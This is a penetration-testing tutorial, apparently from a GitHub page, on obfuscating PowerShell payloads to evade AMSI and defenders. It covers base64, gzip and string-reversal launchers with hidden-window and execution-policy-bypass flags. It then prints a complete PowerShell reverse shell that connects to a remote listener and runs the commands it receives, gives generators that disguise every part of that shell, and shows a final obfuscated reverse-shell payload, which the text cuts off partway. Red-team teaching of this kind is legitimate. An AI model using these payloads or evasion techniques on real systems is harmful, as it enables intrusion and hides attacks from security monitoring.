




# PowerShell Obfuscation

As penetration testers, we use obfuscation in our payloads to bypass various security controls and to buy ourselves time in the event our payload is obtained by a blue team. PowerShell is no exception when it comes to obfuscation. While there exists many different strategies and techniques, some of the more common approaches encapsulate the entire payload within a layer. This inadvertently creates a chokepoint as it makes it easier to break down and tends to get you busted if the presented layer starts get you flagged before the intended payload executes.

PowerShell obfuscation can sometimes be an intimidating topic and frustrating when the common tools start to bust you. What I am looking to do here is to open your eyes to a slightly different approach that could help inspire you to create your very own techniques.

## AMSI

The Windows Antimalware Scan Interface (AMSI) is essentially an API that allows applications (such as anti-virus) to scan various types of content in memory before it's executed. Think of AMSI as an additional security check for your system. Keep in mind that AMSI is not limited to just anti-virus as it's also integrated into these components of Windows 10:

* User Account Control, or UAC (elevation of EXE, COM, MSI, or ActiveX installation)
* PowerShell (scripts, interactive use, and dynamic code evaluation)
* Windows Script Host (wscript.exe and cscript.exe)
* JavaScript and VBScript
* Office VBA macros

The challenge that this will present to us is that if we use common payloads without making any modifications, or even obfuscation tools that are outdated, then it will more than likely get flagged. As we mentioned before, some of the more techniques include the use of layering logic to hide your payloads in plain sight. Here are some of those techniques to give you an idea on how they're generated and how the final launcher appears in your payloads.

### Base64 Encoded Commands

PowerShell supports the ability to execute base64 encoded commands right from the command line with some extra goodies. It also allows you use partial parameter names so long as it's unambiguous, which is a common practice with this particular launcher. This is arguably the most popular approach and is also one of the easiest to discover when reviewing the logs.

Here is a break down of these parameters and what they do:

* -NoP - (-NoProfile) - Does not load the Windows PowerShell profile.)
* -NonI - (-NonInteractive) - Does not present an interactive prompt to the user.
* -W Hidden (-WindowStyle) - Sets the window style to Normal, Minimized, Maximized or Hidden.
* -Exec Bypass (-ExecutionPolicy) - Sets the default execution policy for the current session and saves it
    in the $env:PSExecutionPolicyPreference environment variable.
    This parameter does not change the Windows PowerShell execution policy
    that is set in the registry.
* -Enc (-EncodedCommand) - Accepts a base-64-encoded string version of a command. Use this parameter
    to submit commands to Windows PowerShell that require complex quotation
    marks or curly braces.
    
https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/powershell

```powershell
# Generator
$command = 'Write-Output "Try Harder"'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$base64 = [Convert]::ToBase64String($bytes)

# Launcher
powershell.exe -NoP -NonI -W Hidden -Exec Bypass -Enc 'VwByAGkAdABlAC0ATwB1AHQAcAB1AHQAIAAiAFQAcgB5ACAASABhAHIAZABlAHIAIgAgAA=='
```

### Base64 Expressions

Where the previous scenario allows you to execute base64 encoded payloads from the command line, this method enables you to execute base64 encoded strings within your script itself. 

https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.1

```powershell
# Generator
$command = 'Write-Output "Try Harder"'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$base64 = [Convert]::ToBase64String($bytes)

# Launcher
Invoke-Expression ([System.Text.Encoding]::Unicode.GetString(([convert]::FromBase64String('VwByAGkAdABlAC0ATwB1AHQAcAB1AHQAIAAiAFQAcgB5ACAASABhAHIAZABlAHIAIgA=
'))))
```

### Compression

Compression obfuscation can aid in both evading AMSI (sometimes) and makes it a little tricky to deconstruct. This will take a given payload and compress it into a gzip object then it'll get encoded so it can be stored within the payload. The sneakiness is that you will need to know how to properly decode it or else your payload will be look be unintelligible. Keep in mind that not everyone is comfortable with PowerShell so it may not be that straight forward to extract the intended payload.

https://docs.microsoft.com/en-us/dotnet/api/system.io.compression.gzipstream?view=net-5.0

```powershell
# Generator
$command = 'Write-Output "Try Harder"'

## ByteArray
$byteArray = [System.Text.Encoding]::ASCII.GetBytes($command)

## GzipStream
[System.IO.Stream]$memoryStream = New-Object System.IO.MemoryStream
[System.IO.Stream]$gzipStream = New-Object System.IO.Compression.GzipStream $memoryStream, ([System.IO.Compression.CompressionMode]::Compress)
$gzipStream.Write($ByteArray, 0, $ByteArray.Length)
$gzipStream.Close()
$memoryStream.Close()
[byte[]]$gzipStream = $memoryStream.ToArray()

## Stream Encoder
$encodedGzipStream = [System.Convert]::ToBase64String($gzipStream)

## Decoder Encoder
[System.String]$Decoder = '$decoded = [System.Convert]::FromBase64String("<Base64>");$ms = (New-Object System.IO.MemoryStream($decoded,0,$decoded.Length));iex(New-Object System.IO.StreamReader(New-Object System.IO.Compression.GZipStream($ms, [System.IO.Compression.CompressionMode]::Decompress))).readtoend()'
[System.String]$Decoder = $Decoder -replace "<Base64>", $encodedGzipStream

# Launcher
$decoded = [System.Convert]::FromBase64String("H4sIAAAAAAAEAAsvyixJ1fUvLSkoLVFQCimqVPBILEpJLVICAGWcSyMZAAAA")
$ms = (New-Object System.IO.MemoryStream($decoded,0,$decoded.Length))
Invoke-Expression (New-Object System.IO.StreamReader(New-Object System.IO.Compression.GZipStream($ms, [System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()   
```

### Payload Reversing

You are able to reverse virtually anything that can be split into a character array. You'll see this more often with base64 encoded strings, however, you can also store reversed commands within a payload as well.

https://docs.microsoft.com/en-us/powershell/scripting/learn/deep-dives/everything-about-arrays?view=powershell-7.1

```powershell
# Generator
$Command = 'Write-Output "Try Harder"'.ToCharArray()
$Reversed = @()
($Command.length - 1)..0 | ForEach-Object {
    $Reversed += $Command[$_]
}
$Reversed = $Reversed -join ''

# Launcher
$Reversed = '"redraH yrT" tuptuO-etirW'
$Normal = @()
($Reversed.length - 1)..0 | ForEach-Object {
    $Normal += $Reversed[$_]
}
$Normal = $Normal -join ''
Invoke-Expression $Normal
```

## Layer 0 Obfuscation

While layered approaches can have varied degrees of success, you will be more effective by learning different ways to represent the code within your payloads before wrapping them in layers such as what was illustrated previously.

Let's consider the following command that was used in our previous samples: `Write-Output "Try Harder"`. With this code, we could change it up in a variety of ways such as:

1. Obfuscating the cmdlet 'Write-Output'
2. Obfuscating the string 'Try Harder'
3. Combining the first two items together

Let's see this in action:

#### Obfuscating the cmdlet 'Write-Output'

This will take a given string and split each character down into it's ASCII equivalent. When you pass a string with `&` or the call operator, it will effectively execute that command. Because of this, you can form the cmdlet in any form so long as the resulting object reflects the cmdlet in question.

```powershell
# Generator
$Cmdlet = 'Write-Output'
$NewValue = '& ([string]::join('''', ( (' + (([int[]][char[]]$Cmdlet | ForEach-Object {$_}) -join ',') + ') |%{ ( [char][int] $_)})))'

# Launcher
& ([string]::join('', ( (87,114,105,116,101,45,79,117,116,112,117,116) |%{ ( [char][int] $_)}))) "Try Harder"
```

#### Obfuscating the string 'Try Harder'

You can do so much with strings. In this example, it will split the given string into it's given ASCII value, then concatentate them together within an expression grouping operator `$()`. When this runs, the resulting object is seen as the intended string, therefor outputing our intended when combined with the write-output cmdlet.

```powershell
# Generator
$String = 'Try Harder'
$NewValue = '$(' + (([int[]][char[]]$String | ForEach-Object { "[char]$($_)" }) -join '+') + ')'

# Launcher
Write-Output $([char]84+[char]114+[char]121+[char]32+[char]72+[char]97+[char]114+[char]100+[char]101+[char]114)
```

#### Combining our obfuscated components together

Taking the magic from both of these samples, we can combine them into a single command that effectively hides our original command.

```powershell
& ([string]::join('', ( (87,114,105,116,101,45,79,117,116,112,117,116) |%{ ( [char][int] $_)}))) $([char]84+[char]114+[char]121+[char]32+[char]72+[char]97+[char]114+[char]100+[char]101+[char]114)
```

While we have clearly altered the original code, we have achieved the intended output without encapsulating our entire payload. At this point, you need to determine whether or not you obfuscating your code at this level is enough, or if want to wrap your payload within additional layers. Keep in mind that if you go through route, ensure each layer is obscured to a degree.



## Breaking Down a Reverse Shell

Let’s move into a more practical example by breaking down the vanilla PowerShell reverse shell. There are lots of components within PowerShell scripts that can be represented differently. While some components are obvious and straight forward, others exist that you may or may not have thought about changing. 

Let's familiarize ourselves with the raw payload. To keep it readable, I have converted the one-liner to a multi-line derivative. This payload will establish a connection from the machine it was launched on to a listening socket on a remote computer. While the connection is established, the machine it was intiated on will execute commands sent from the remote machine and will send the response back through the connection. With the design of the sendback variables, it will look just like the typical PowerShell command line. 

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
  $sendback = (iex $data 2>&1 | Out-String )
  $sendback2 = $sendback + "PS " + (pwd).Path + "> "
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
  $stream.Write($sendbyte,0,$sendbyte.Length)
  $stream.Flush()
}
$client.Close()
```

### Payload Components

Nearly all the components of a payload can be represented differently. Anything from string manipulation or pipeline chaining is fair game. Let's take a look at the components we will be targeting from the reverse shell payload.

* Aliases (iex)
* Cmdlets (New-Object)
* Integers (4444)
* Methods ($client.GetStream())
* Namespace Classes (System.Net.Sockets.TCPClient)
* Pipes (|)
* Pipeline Variables ($_)
* Socket IP (New-Object System.Net.Sockets.TCPClient("10.10.10.10",80))
* Strings ("value" | 'value')
* Variables ($client)

### Generators

This is where the real fun begins and where you can let your creativity shine. What we'll do here is for each componented listed above, I will provide a sample generator that will provide a new value to take it's place. Handling each component separetely will enable us to drastically expand upon this approach, which I'll get into later.

### Aliases

Aliases are simply just shortcuts to an intended cmdlet. For example, the alias `iex` translate to `invoke-expression`. This is trivial to identify. Aliases are just as simple to identify as cmdlets so using them to try to slip through the cracks isn't very feasable. Because of this, I resolve them into their intended cmdlet to be handled differently.

https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_aliases?view=powershell-7.1

```powershell
PS /home/tristram/Obfuscation> Get-Alias iex,pwd

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Alias           iex -> Invoke-Expression                                      
Alias           pwd -> Get-Location             
```

### Cmdlets

Within the context of PowerShell, cmdlets are essentially just commands. Due to the continued support of the call operator `&`, we have plenty of wiggle room to come up with new ways to represent a cmdlet so long as the passed value evaluates to a valid cmdlet. 

https://ss64.com/ps/call.html

```powershell
# Generator
$cmdlet = 'invoke-expression'

# All valid characters in a cmdlet name
$valid = ('-0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz'.ToCharArray() | Sort-Object { Get-Random }) -join ''
$replaceWith = $valid.ToCharArray()
$extractedCharArray = @()
$cmdletCharArray = $cmdlet.ToCharArray()

# Loop through each character within each command
ForEach ($char in $cmdletCharArray) {
    If ($char -in $replaceWith) {
        $extractedCharArray += $([array]::IndexOf($replaceWith, $char))
    }
}

$NewValue = "& ((""$valid"")[$($extractedCharArray -join ',')] -join '')"

# New Value
& (("3oFAIQdPcNvzU72CELRwGlMTDxfe1iVtp8OuWq-jsYyJHSakm69nb5XBZg4K0hr")[29,51,10,1,47,27,38,27,25,32,62,27,40,40,29,1,51] -join '')
```

### Integers

These are simply just numeric values. One of the ways we change these static values is to incorporate them into arthmetic operators that evalute to the intended value. For example, using PowerShell, we can represent the integer `1` as `$(1000-100-500-300-90+20-29)`. You need to be careful when dealing with integers with powershell. For example, `'80'` and `80` are different object types and you could break your payload.

https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_arithmetic_operators?view=powershell-7.1

```powershell
# Generator
$integer = 80
$newValue = $integer

(1..(1..10 | Get-Random) | ForEach-Object {
    # Plus or Minus
    switch ((1..2 | Get-Random)) {
        1 { $operator = '+' }
        2 { $operator = '-' }
    }
    
    # Left or Right
    switch ((1..2 | Get-Random)) {
        1 { $newValue = "0$operator$newValue" }
        2 { $newValue = "$newValue$operator0" }
    }
} )


# Ensure we do not create negative values
if ($newValue -like "*0-$integer*" ) {
switch ((1..2 | Get-Random)) {
    1 { $newValue = '$' + "($newValue+$integer+$integer)" }
    2 { $newValue = '$' + "($integer+$integer+$newValue)" }
}   
}
else {
$newValue = '$' + "($newValue)"   
}

# New Value
$(0-80+80+80)
```

### Methods

Methods are simply actions that we can perform against a preceding object. For example, we can use `Get-Process Notepad` to obtain a process object. One of the methods we can execute on this object is `kill` to effectively shutdown this process, ie `(Get-Process Notepad).Kill()`.

https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_methods?view=powershell-7.1

```powershell
# Generator
$Method = '$client.close()'
$CharArrayString = ($Method.ToCharArray() | ForEach-Object { [int][char]$_ }) -join ","
$NewValue = '<iex> ([string]::join('''', ( (<OBFUSCATED>) |%{ ( [char][int] $_)})) | % {$_})' -replace '<OBFUSCATED>', $CharArrayString -replace '<iex>', '& (("H7zdxIAG6PlRgvqZspJ2Fi1cMnOjKEV-kwWQaSfoh9tuYU3me0r4NXTBLy85DCb")[21,25,13,39,32,48,31,48,4,17,50,48,16,16,21,39,25] -join '')'

# New Value
& (("H7zdxIAG6PlRgvqZspJ2Fi1cMnOjKEV-kwWQaSfoh9tuYU3me0r4NXTBLy85DCb")[21,25,13,39,32,48,31,48,4,17,50,48,16,16,21,39,25] -join ') ([string]::join('', ( (36,99,108,105,101,110,116,46,99,108,111,115,101,40,41) |%{ ( [char][int] $_)})) | % {$_})
```

### Namespace Classes

The `New-Object` cmdlet allows us to creates instances of various types of objects. Within the reverse shell we have already taken care of the cmdlet itself, which leaves the class declaration. This is effectively just a matter of being fancy with string manipulation. If you look at our previous use case with `Write-Output "Try Harder"`, this is the same concept.

https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/new-object?view=powershell-7.1
https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_classes?view=powershell-7.1

```powershell
# Generator
$NamespaceClass = 'System.Net.Sockets.TCPClient'
$Chars = ([int[]][char[]]$NamespaceClass | ForEach-Object { 
    $OrigChar = $_
    $Random = 1..122 | Get-Random
    $Iteration = (1..3 | get-random)
    if ($Iteration -eq 1) {
        "[char]($Random+$OrigChar-$Random)"
    }
    elseif (($Iteration -eq 2)) {
        "[char]($Random*$OrigChar/$Random)"
    }
    elseif (($Iteration -eq 3)) {
        "[char](0+$OrigChar-0)"
    }
}) -join '+'
$NewValue = '$(<OBFUSCATED>)' -replace '<OBFUSCATED>', $Chars

# New Value
$([char](63*83/63)+[char](0+121-0)+[char](104*115/104)+[char](108*116/108)+[char](50*101/50)+[char](0+109-0)+[char](71*46/71)+[char](28+78-28)+[char](84+101-84)+[char](118+116-118)+[char](89+46-89)+[char](51+83-51)+[char](65*111/65)+[char](111*99/111)+[char](0+107-0)+[char](104*101/104)+[char](16+116-16)+[char](61*115/61)+[char](47+46-47)+[char](32+84-32)+[char](33+67-33)+[char](37+80-37)+[char](10*67/10)+[char](76*108/76)+[char](3*105/3)+[char](91+101-91)+[char](71+110-71)+[char](69+116-69))
```

### Pipes

Pipes, or pipeline operators, takes the results from one command and passes it to another object. This allows you to seemlessly integerate logic between different powershell commands. For example, `Get-Service` will provide you every service on the device, but if you pipe it you `Where-Object`, you can apply logic to only get a specific service object back, ie `Get-Service | Where-Object { $_.Name -eq 'bits' }`, otherwise it will output every service.

https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_pipelines?view=powershell-7.1

```powershell
# Generator
Switch (Get-Random -Minimum 1 -Maximum 6) {
  1 { $NewValue = '|%{$_}|' }
  2 { $NewValue = '|%{;$_}|' }
  3 { $NewValue = '|%{$_;}|' }
  4 { $NewValue = '|%{;$_;}|' }
  5 { $NewValue = '|<##>%{$_}<##>|' 
}

# New Value
|%{;$_}|
```

### Pipeline Variables

Pipeline variables are the values the store the current object within a pipeline operation. Using our previous example with pipes, the pipeline variable `$_` is used to determine whether or not the current object's name is bits. Keep in mind that obfuscation isn't just about masking content, but making it harder to understand by surrounding it with obligatory values.

https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_automatic_variables?view=powershell-7.1

```powershell
# Generator
Switch ((Get-Random -Minimum 1 -Maximum 6)) {
    1 { $NewValue = '<##>$_' }
    2 { $NewValue = '$_<##>' }
    3 { $NewValue = '<##>$_<##>' }
    4 { $NewValue = '<##>$($_)' }
    5 { 
        $Random1 = ('<#' + (('0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz'.ToCharArray() | Get-Random -Count (1..25 | Get-Random) | ForEach-Object { $_ }) -join '') + '#>')
        $NewValue = '<#1#>$_' -replace '<#1#>', $Random1
    }
}

# New Value
<##>$($_)
```

### Socket Listener IP

Typically with your socket client declarations, IE `$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80)`, the IP is a string and the port is an integer, which would fall under different component types. However, I like to handle them differently. It's not a necessity though, just an extra step.

```powershell
# Generator
$ipAddress = "10.10.10.10"

$randomSet = 1..4 | ForEach-Object { (((48..57) + (65..90) + (97..122) | Get-Random -Count (5..25 | Get-Random) | ForEach-Object { [char]$_ }) -join '') }
$validSet = $ipAddress.split('.')
$stage1 = '"' + ($randomSet -join '.') + '"'

0..3 | ForEach-Object {
    $ro = $($randomSet[$_])
    $vo = $($validSet[$_])
    $stage2 += ".replace('$ro',$vo)"
}

$newValue = "$stage1.replace$(($Stage2 -split '.replace' | ? {$_} | sort-object {get-random}) -join '.replace')"

# New Value
"JNtT3Y9z6LRjVGoU7MgD4OrQ.Txr1l6Mghd8ntYEV3oAkHwR.pIc2CSBi7ga6Z.ALwSbKxoVU".replace('I8rWN0',10).replace('ytsOhBMvTD2SQ5FnXmbzY7',10).replace('pIc2CSBi7ga6Z',10).replace('ALwSbKxoVU',10).replace('KGDi56aYENHfe3xLAbP',10).replace('jROhMQpqkYxUSl',10).replace('JNtT3Y9z6LRjVGoU7MgD4OrQ',10).replace('Txr1l6Mghd8ntYEV3oAkHwR',10).replace('ytsOhBMvTD2SQ5FnXmbzY7',10).replace('I8rWN0',10).replace('jROhMQpqkYxUSl',10).replace('KGDi56aYENHfe3xLAbP',10)
```
    
### Strings

Strings can be fun to work with because you can do virtually anything you want. This method will convert a string into individual characters and concatentate them together with the `+` operation. After that's finished, it'll wrap the value within a random amount of ground operations.

https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_quoting_rules?view=powershell-7.1

```powershell
# Generator 
$string = 'PS '

$newValue = ((($string -replace '''') -split '') -join "'+'")
$newValue = $newValue.Substring(2, $newValue.Length - 4)

$count = 1..3 | Get-Random
$iterations = 1
while ($iterations -le $count) {
    # Subexpression operator
    if ((1..2 | Get-Random) -eq 1) {
        $newValue = '$(' + $newValue + ')'
    }
    # Grouping Expression operator
    else {
        $newValue = '(' + $newValue + ')'
    }
    $iterations++
}

# New Value
($(('P'+'S'+' ')))
```

### Variables

Variables are tricky as you are relatively limited on what you can do. What I typically like to is to take each variable and generate a random name to replace it. This will select up to 25 numbers at random from the given alpha-numerical set and concatenating them together and append the resulting value to the `$` symbol to form a proper variable name.

https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_automatic_variables?view=powershell-7.1

```powershell
# Generator
$NewValue = '$' + (('0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz'.ToCharArray() | Get-Random -Count (1..25 | Get-Random) | ForEach-Object { $_ }) -join '')

# New Value
$e3PV2fUKDR
```

### Final Payload

Putting all these different techniques together, we have transformed our payload into a newly obfuscated payload.

```powershell
$RIh2YMeUrLleflu = & (("bkJFpDG8iOerRVvo9xzsfjABHPgI5WYq4-$(0+6)h3ynN1aTEKXudm27LQlwtMCc0SUZ")[$(0-0+0-39+39+39),$(0-0+0+10),$(54),$(0-0+33),$(0+0+0-0+0-9+9+9),$(0+0+0),21,$(0-0+0+10),$($(58)),(55)] -join '') $([char]($(0+6)*$(83)/$(0+6))+[char]($(46+46+0-0-46)+$(121+121+0+0-121)-$(46+46+0-0-46))+[char]($(0-0+0-0-102+102+102)*$(0-0+0+115)/$(0-0+0-0-102+102+102))+[char]($(0+0+0)+$(116)-$(0+0+0))+[char]($(0+0-0-0+3)+(((101)))-$(0+0-0-0+3))+[char]($(((28)))*(109)/$(((28))))+[char]($(1)*$(46+46+0-0-46)/$(1))+[char]($(0+0+0)+$(0-0+0-0-0+78)-$(0+0+0))+[char]($(0+0+0+19)+(((101)))-$(0+0+0+19))+[char](118+$(116)-118)+[char]($(0-0+0-39+39+39)*$(46+46+0-0-46)/$(0-0+0-39+39+39))+[char]($(0+0+0)+$(83)-$(0+0+0))+[char]($(15+15+0+0+0+0-15)*$((111))/$(15+15+0+0+0+0-15))+[char]($(11)*$(0+0+0+99)/$(11))+[char]($(0+0+0)+$(0+0-107+107+107)-$(0+0+0))+[char](24+(((101)))-24)+[char]($((75))*$(116)/$((75)))+[char]($(60)*$(0-0+0+115)/$(60))+[char]($(0+0+0)+$(46+46+0-0-46)-$(0+0+0))+[char]($(0+0+0)+84-$(0+0+0))+[char]($(0+0+0)+$($($(67)))-$(0+0+0))+[char]($($(100))+80-$($(100)))+[char]($(0-0-0-5+5+5)+$($($(67)))-$(0-0-0-5+5+5))+[char]($(0+0+0+19)*$(108)/$(0+0+0+19))+[char]($(94+94+0-0+0-94)+(($(105)))-$(94+94+0-0+0-94))+[char]($(0+0+0+0+113)+(((101)))-$(0+0+0+0+113))+[char]($(108)+110-$(108))+[char]($(0+0+0)+$(116)-$(0+0+0)))("Eztpe9HAJhx0CsSoVdQai.inkFe35GxjHEZugbD17Ur.fLgCcGp4z.H2RDbaXwLSUzI46Oo8xA".replace('fLgCcGp4z',0).replace('Eztpe9HAJhx0CsSoVdQai',127).replace('inkFe35GxjHEZugbD17Ur',0).replace('H2RDbaXwLSUzI46Oo8xA',1),4444);$VQzo0MZvYst = (& (("Kq6lEhs17kBIGeSjvXwAr4cYnfT5WLPRxOyZQd8U-b9omziMCgu3J0FpVaHDN2t")[$(46+46+0-0-46),24,$(0-0+0+16),$(43),$(0+0+0-0+0-9+9+9),(13),(($(40))),(13),$(32+32+0+0-32),(55),$(20),(13),$(0+6),$(0+6),$(46+46+0-0-46),$(43),24] -join '') ([string]::join('', ( (36,$(82),73,$(104),(((50))),$(0+0+89),$(77),(((101))),(($(85))),$(0+0-0+114),$(0-0+76),$(108),(((101))),$(0-0+0-0-102+102+102),$(108),$(117+117+0+0-0+0-117),$(46+46+0-0-46),$(71),(((101))),$(116),$(83),$(116),$(0+0-0+114),(((101))),$((97)),(109),(($(40))),41) |%{ ( [char][int] $_)})) | % {$_}));[byte[]]$aKydB9RXv2thuU = $(0+0+0)..$($($(65535)))|<##>%{<#$(0+0-0-0+3)GT4BWEX1Kon2#>$_}|& (("NAMCqn9H23mOzfrZeP461KyWULshapxR-jIJviEo0kQtFDlGwuST7dBcVbYg8X5")[(44),$(0-0+0-39+39+39),$(14),(((38))),$(((28))),(55),$(27+27+0+0+0-27),$(32+32+0+0-32),$(11),($((57))),$(0-0+33),$(0-0+0+16),(55),$(43)] -join ''){$(0+0+0)};while(($cvB4PPcLVI = $VQzo0MZvYst.Read($aKydB9RXv2thuU, $(0+0+0), $aKydB9RXv2thuU.Length)) -ne $(0+0+0)){;$WcDamZqInJS7HDr3 = (& (("bkJFpDG8iOerRVvo9xzsfjABHPgI5WYq4-$(0+6)h3ynN1aTEKXudm27LQlwtMCc0SUZ")[$(0-0+0-39+39+39),$(0-0+0+10),$(54),$(0-0+33),$(0+0+0-0+0-9+9+9),$(0+0+0),21,$(0-0+0+10),$($(58)),(55)] -join '') -TypeName 